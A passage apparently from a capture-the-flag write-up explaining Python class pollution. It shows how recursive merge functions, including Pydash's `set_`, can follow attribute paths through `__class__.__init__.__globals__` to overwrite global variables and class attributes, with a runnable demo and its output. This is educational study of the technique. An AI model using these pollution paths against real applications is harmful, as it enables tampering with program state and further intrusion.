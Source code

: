 ```py
#> Polluted variable
#> <class '__main__.PollutedClass'>
```

We leveraged the special attribute `__globals__` to access and set an attribute of `NotAccessibleClass` class, and modify the global variable `not_accessible_variable`. `NotAccessibleClass` and `not_accessible_variable` wouldn’t be accessible without `__globals__` since the class isn’t a parent class of the instance we control and the variable isn’t an attribute of the class we control. However, since we can find a chain of attributes/items to access it from the instance we have, we were able to pollute `NotAccessibleClass` and `not_accessible_variable`.

**Real Examples of the Merge Function:**

**Pydash**, is a Python's library that Based on the **Lo-Dash** JavaScript library. However, Lo-Dash is one of the JavaScript libraries where Prototype Pollution was previously discovered.

In Pydash, **`set_`** and `set_with` functions are examples of recursive merge functions that we can leverage to pollute attributes.

In all the previous examples, the Pydash `set_` and `set_with` functions can be used instead of the merge function that we have written and it will still be exploitable in the same way. The only difference is that Pydash functions use dot notation such as `((<attribute>|<item>).)*(<attribute>|<item>)` to access attributes and items instead of the JSON format.

```py
import pydash

class User:
    def __init__(self):
        pass

class NotAccessibleClass: pass
not_accessible_variable = 'Hello'

pydash.set_(User(), '__class__.__init__.__globals__.not_accessible_variable','Polluted variable')
print(not_accessible_variable)

pydash.set_(User(), '__class__.__init__.__globals__.NotAccessibleClass.__qualname__','PollutedClass')
print(NotAccessibleClass)

#> Polluted variable
#> <class '__main__.PollutedClass'>
```

**In the Abdulrah33m's blog post, we can see this:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/PwnMe-2023-8-bits/images/Pasted%20image%2020230507140456.png)
